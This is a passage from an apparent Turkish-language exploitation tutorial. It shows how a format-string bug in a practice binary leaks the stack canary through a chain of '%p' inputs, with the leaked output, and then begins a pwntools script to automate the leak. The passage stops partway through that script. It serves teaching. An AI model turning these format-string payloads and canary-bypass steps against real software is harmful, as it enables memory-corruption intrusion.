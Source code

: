 Çerezi aslında kolayca tanımanın bir yolu var. Başındaki `0x00` yani null termination karakterini
görüyor musunuz? Her çerez bu karakter ile başlıyor. Bunun amacı null termination'ın unutulduğu durumlarda
`strcpy` gibi fonksiyonlar istemeden çerezi leaklemesini engellemek.

Eğer leaklediğimiz veriye bakarsak, bu verinin çoğunun formatlanan metnin kendisinden ibaret olduğunu 
göreceğiz, ama dikkatli bakarsanız bu veri içinde çerezi görebilirsiniz:
```
Hello, what's your name?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x4056b1(nil)0x7ffff7fb18e00x4056d9(nil)(nil)(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x7025702570257025 !!0x66873b1eca714a00 !! 0x10x7ffff7dfecd00x7fffffffeb800x4011660x1004000400x7fffffffeb980x7fffffffeb98? [yes/no]
```
Şimdi hangi noktada çerezi leaklediğimize bakalım. Bunu sadece deneme yanılma yaparak bulabilirsiniz:
```
Hello, what's your name?
%p %p %p %p %p %p %p %p %p %p %p %p %p
0x4056b1 (nil) 0x7ffff7fb18e0 0x4056d7 (nil) (nil) (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520702520 0x3a6c1c66001cae00? [yes/no]
```
Bu durumda, 13. `%p` formatı ile çerezi leakliyoruz. Artık çerezi leakleyebildiğimize göre exploitin
diğer kısmına geçmeden önce tartışmamız gereken birşey var. 

Önceki bölümlerde kullandığımız `/tmp/ex` dosyasına exploiti yazan scriptimizin çalışmayacağını sanırım 
farkettiniz. Çerez programın çalışması sırasında leaklendiğinden bize dinamik olarak exploit için doğru 
payload'ı oluşturabilecek bir script lazım.

Bunun için programın IO'sunu (stdin, stdout, stderr) kontrol ederek önce çerezi leakleyen sonrada çerezi 
stdout'dan okuyup, payloadı oluşturup sonrada programa sağlıyacak bir script yazabiliriz, ama bu oldukça karmaşık 
ve de gereksiz olacaktır. Çünkü zaten bunu bizim için yapabilecek birşey var, pwntools!

### Basit bir şekilde pwntools 
pwntools scriptimizde, kolay bir şekilde zafiyetli binary'nin IO'sunu kontrol etmemizi ve 
payload oluşturmamızı sağlıyor.

pwntools'u kullanmak için ilk yapmamız gerek import etmek:
```python
from pwn import *
```
Sonrasında `context` yapısını düzenleyerek hedef binary, işletim sistemi ve mimarimizi belirtebiliriz:
```python
context.update(arch="amd64", os="linux")
context.binary = ELF("./0x3")
```
Şimdi de binary'i bir işlem olarak başlatıp belirli bir noktaya kadar IO'dan okuma yapabiliriz,
verimizi girmeden önce `Hello, what's your name?` çıktısına kadar ulaşmak istiyoruz. Bu durumda 
tek yapmamız gerek bu çıktının sonunda yer alan yeni satır karakterine kadar okuma yapmak:
```python
p = process("./0x3")

p.recvuntil(b"\n")
```
Sonrasında çerezi leaklemek için ilk girdimizi gönderelim ve de sıradaki satırı okuyalım. Bu satır 
evet/hayır sorsunu dolayısı ile de leakimizi içerecek. Her leaki boşluk karakteri ile ayırdığımızdan
en sonda bulunan çereze ulaşmak için biraz string manipülasyonu yapabiliriz:
```python
p.sendline(b"%p %p %p %p %p %p %p %p %p %p %p %p %p")
```